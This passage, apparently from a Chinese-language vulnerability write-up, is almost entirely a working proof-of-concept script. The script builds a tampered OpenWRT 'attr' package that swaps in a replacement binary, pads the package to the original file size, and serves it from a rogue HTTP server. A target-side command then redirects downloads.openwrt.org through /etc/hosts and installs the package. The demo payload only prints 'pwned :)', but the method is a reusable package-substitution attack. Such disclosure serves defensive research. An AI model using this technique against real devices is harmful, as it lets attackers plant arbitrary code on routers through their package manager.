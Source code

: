 ```
echo " mov  ecx,msg" &gt;&gt;/tmp/pwned.asm
echo " mov  ebx,1" &gt;&gt;/tmp/pwned.asm
echo " mov  eax,4" &gt;&gt;/tmp/pwned.asm
echo " int  0x80" &gt;&gt;/tmp/pwned.asm
echo " mov  eax,1" &gt;&gt;/tmp/pwned.asm
echo " int  0x80" &gt;&gt;/tmp/pwned.asm
echo "section  .data" &gt;&gt;/tmp/pwned.asm
echo "msg  db  'pwned :)',0xa" &gt;&gt;/tmp/pwned.asm
echo "len  equ $ - msg" &gt;&gt;/tmp/pwned.asm

# 编译
nasm /tmp/pwned.asm -f elf64 -o /tmp/pwned.o

# 链接
ld /tmp/pwned.o -o usr/bin/attr

# 压缩进data.tar.gz
tar czvf ../data.tar.gz *
cd ../

# 移除不需要的文件
rm -rf data/

# 压缩
tar czvf attr_2.4.48-2_x86_64.ipk control.tar.gz data.tar.gz debian-binary

# 移除不需要的文件
rm control.tar.gz data.tar.gz debian-binary

# 计算原始软件包和受损软件包间的大小差异
MODIFIED_FILESIZE=$(stat -c%s "attr_2.4.48-2_x86_64.ipk")
FILESIZE_DELTA="$(($ORIGINAL_FILESIZE-$MODIFIED_FILESIZE))"

# 向受损软件包中填充对应数量的0字节
head /dev/zero -c$FILESIZE_DELTA &gt;&gt;attr_2.4.48-2_x86_64.ipk

# 下载attr的依赖项
wget http://downloads.openwrt.org/snapshots/packages/x86_64/packages/libattr_2.4.48-2_x86_64.ipk

# 将在web server上提供服务的文件放入对应位置
mkdir -p snapshots/packages/x86_64/packages/
mv attr_2.4.48-2_x86_64.ipk snapshots/packages/x86_64/packages/
mv libattr_2.4.48-2_x86_64.ipk snapshots/packages/x86_64/packages/

# 启动opkg要连接的web服务器
sudo python -m SimpleHTTPServer 80
```

假设Web服务器的IP地址为`192.168.2.10`，在OpenWRT系统上运行如下命令：

```
echo "192.168.2.10 downloads.openwrt.org" &gt;&gt;/etc/hosts; opkg update &amp;&amp; opkg install attr &amp;&amp; attr
```

